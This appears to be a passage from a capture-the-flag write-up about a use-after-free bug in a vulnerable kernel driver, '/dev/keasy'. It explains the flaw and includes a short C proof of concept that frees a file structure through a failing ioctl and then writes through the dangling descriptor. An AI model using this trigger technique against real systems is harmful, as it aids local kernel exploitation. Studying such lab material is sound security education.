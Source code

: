 ```c
	ret = 0;
    return ret;

err:
    fput(myfile);
out:
	return ret;
}
```

It will create anonymous file named `[easy]`, and will assign a fd to it.

If the `copy_to_user` call fails, the file structure will be freed, but we we can still use the assigned fd in userspace, so we have an UAF.

## Trigger the bug

To trigger the bug, we just need to open the vulnarable device, and make the `copy_to_user` call fail. 

We can do it by giving an invalid `arg` parameter, which is not mapped to the userspace virtual memory:

```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>


int main(int argc, char const *argv[]) {
  
  printf("Openining the vulnarable device...\n");
  int fd = open("/dev/keasy", O_RDWR);  

  printf("Freeing the file structure...\n");
  if (ioctl(fd, 0, 0x69696969) != -1){ //if the ioctl didn't fail
    printf("ERROR");
    exit(1);
  }

  //We reach here after the call to fputs
  int dangeling_fd = fd+1;
  
  printf("Use the Freed file structure...\n");

  write(dangeling_fd, 'ohohoh', 6);
  return 0;
}


```
